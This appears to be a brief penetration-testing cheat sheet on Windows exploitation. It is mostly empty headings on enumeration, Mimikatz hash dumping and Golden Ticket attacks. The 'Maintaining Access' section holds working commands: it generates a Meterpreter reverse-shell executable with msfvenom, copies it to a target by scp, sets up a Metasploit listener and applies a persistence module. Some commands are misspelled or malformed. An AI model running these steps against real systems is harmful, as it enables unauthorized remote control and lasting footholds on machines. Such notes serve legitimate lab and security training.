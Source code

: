 #WindowsExploitation 
### Enumeration w/ Powerview
### Enumeration w/ BloodHound
### Dumpling hashes w/ Mimikatz
### Golden Ticket attacks w/ Mimikatz
### Enumeration w/ Server Manager
#### Maintaining Access
##### Generate paylod
```msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe
```
Transfer the binary with scp
`scp shell.exe administrator@10.10.35.245:C:/User/Administrator`
```msfconle
use exploit/multi/handler
set LHOST 
set payload/windows/meterpreter/reverse_tcp
```
Execute the binary in the windows server and get the reverse shell
Background the shell with `bg` or `Ctrl+z`
##### Run the persistence module
```msfvenom
use exploit/windows/local/persistence
set session 1
```